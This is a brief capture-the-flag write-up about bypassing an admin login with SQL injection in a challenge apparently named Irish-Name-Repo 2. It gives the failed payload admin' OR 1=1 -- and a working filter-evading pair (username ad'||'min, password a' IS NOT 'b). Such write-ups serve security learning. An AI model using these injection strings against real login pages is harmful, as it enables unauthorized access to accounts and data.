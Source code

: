 - This chall is same with chall Irish-Name-Repo 1, you have to bypass admin login page by sqli.

- i had tried username: admin' OR 1=1 -- like chall 1 but now i can't access.

![image](https://github.com/user-attachments/assets/683bd4f1-ccd3-4cac-96fd-e6b066e567b9)

- i think in here they have filter 'admin', so i use this username and password to bypass.

- username: ad'||'min
- password: a' IS NOT 'b

![image](https://github.com/user-attachments/assets/05597370-e95d-468e-a7a6-7d2ad3d87c82)
